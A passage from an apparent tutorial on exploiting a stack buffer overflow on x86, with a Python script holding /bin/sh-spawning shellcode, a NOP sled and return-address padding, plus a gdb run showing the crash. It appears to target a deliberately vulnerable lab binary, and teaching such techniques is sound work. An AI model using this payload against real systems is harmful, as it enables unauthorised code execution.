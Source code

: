 We will use a Python script to craft our exploit, since we use Python 3
it's important to use `bytes` type.

In addition, since we are working on x86, the hexadecimal value for NOP
instructions is `0x90`.

Save the following as exploit.py

```bash
import sys

shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
eip = b"\x43\x43\x43\x43" * 10
nop = b"\x90" * 447
buff = nop + shellcode + eip

sys.stdout.buffer.write(buff) 
```

Since we don't know for now what the return address (`eip`) will be, we
currently replace it with `C` (`x43`) that we repeat 10 times to have a
bit of padding between our shellcode and the stack.

Our NOP sled is being repeated 447 times since we need to write 512
bytes to overwrite the return address:

```bash
512        - (4 * 10) -     25    =     447
Total size -    eip   - shellcode =   nop sled.
```

Here is what we expect our memory to looks like after execution of our
payload:

![Stack Overflowed shellcode
injection](https://github.com/hg8/hg8.github.io/assets/9076747/7968b3ab-4e06-482b-a03d-ac19f7e117cb)

Let's run our payload:

```bash
gdb ./vuln
Reading symbols from vuln2-nosec...
(gdb) run $(python3 exploit-test.py)
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

We get exactly what we were looking for, a segmentation fault since we
didn't provide a valid return address yet. Let's now inspect our memory
to define what the return address should be.

When inspecting the memory, we can see our payload was injected as
expected:
